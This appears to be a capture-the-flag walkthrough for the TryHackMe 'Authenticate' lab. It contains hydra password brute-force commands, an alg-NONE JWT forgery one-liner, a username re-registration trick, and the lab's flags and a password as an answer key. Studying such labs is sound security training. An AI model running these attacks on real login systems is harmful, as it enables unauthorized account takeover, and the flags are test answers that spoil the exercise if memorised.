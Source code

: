 # Authenticate

{% embed url="https://tryhackme.com/room/authenticate" %}
https://tryhackme.com/room/authenticate
{% endembed %}

## Task 2 Dictionary attack

```bash
rustscan -a 10.10.251.50 -- -n -sVC
```

![](<../../.gitbook/assets/Screenshot from 2022-04-06 04-51-46.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-06 04-51-34.png>)

#### What is the flag you found after logging as **Jack**?

```bash
hydra -l jack -P /usr/share/wordlists/rockyou.txt -s 8888 \
'http-post-form://10.10.251.50/login:user=^USER^&password=^PASS^:Invalid' \
-t64 -I
```

![](<../../.gitbook/assets/Screenshot from 2022-04-06 04-47-03.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-06 04-47-20.png>)

{% hint style="success" %}
`fad9ddc1feebd9e9bca05f02dd89e271`
{% endhint %}

#### Now try the same thing for username **mike**. What is the flag you found after logging as **Mike**?

```bash
hydra -l mike -P /usr/share/wordlists/rockyou.txt -s 8888 \
'http-post-form://10.10.251.50/login:user=^USER^&password=^PASS^:Invalid' \
-t64 -I
```

![](<../../.gitbook/assets/Screenshot from 2022-04-06 04-48-51.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-06 04-50-15.png>)

{% hint style="success" %}
`e1faaa144df2f24aa0a9284f4a5bb578`
{% endhint %}

## Task 3 Re-registration

Try to re-register that username but with slight modification.

#### What is the flag that you found in darren's account?

{% hint style="success" %}
`fe86079416a21a3c99937fea8874b667`
{% endhint %}

#### Now try to do the same trick and see if you can login as **arthur.** What is the flag that you found in arthur's account?

![](<../../.gitbook/assets/Screenshot from 2022-04-06 04-55-01.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-06 04-56-01.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-06 04-56-50.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-06 04-57-35.png>)

{% hint style="success" %}
`d9ac0f7db4fda460ac3edeb75d75e16e`
{% endhint %}

## Task 4 JSON Web Token

#### Use the same method to find identity of admin user and retrieve the flag?

```bash
echo -n "$(echo '{"typ":"JWT","alg":"NONE"}' | base64 | tr -d '=').$(echo '{"exp":1649193019,"iat":1649192719,"nbf":1649192719,"identity":2}' | base64 | tr -d '=')."
```

![](<../../.gitbook/assets/Screenshot from 2022-04-06 05-16-25.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-06 05-16-10.png>)

```bash
echo -n "$(echo '{"typ":"JWT","alg":"NONE"}' | base64 | tr -d '=').$(echo '{"exp":1649193019,"iat":1649192719,"nbf":1649192719,"identity":0}' | base64 | tr -d '=')."
```

![](<../../.gitbook/assets/Screenshot from 2022-04-06 05-18-24.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-06 05-18-09.png>)

{% hint style="success" %}
`92498880383088033228`
{% endhint %}

## Task 5 No Auth

#### Find the way to get into superadmin ad

![](<../../.gitbook/assets/Screenshot from 2022-04-06 05-23-58.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-06 05-24-21.png>)

#### What is the password for superadmin account?

{% hint style="success" %}
`abcd1234`
{% endhint %}

#### What is the flag you found in superadmin account?

{% hint style="success" %}
`72102933396288983011`
{% endhint %}

